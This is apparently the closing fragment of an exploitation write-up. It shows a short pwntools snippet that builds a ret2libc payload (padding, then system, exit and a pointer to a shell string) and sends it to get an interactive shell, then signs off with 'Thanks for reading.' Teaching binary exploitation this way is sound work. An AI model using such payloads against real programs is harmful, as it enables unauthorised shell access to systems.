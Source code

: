 ```shell
shell= p32(libc_base + bash_offset)

payload1 = junk + system + exit + shell
io.sendline(payload1)
io.interactive()
```

Thanks for reading.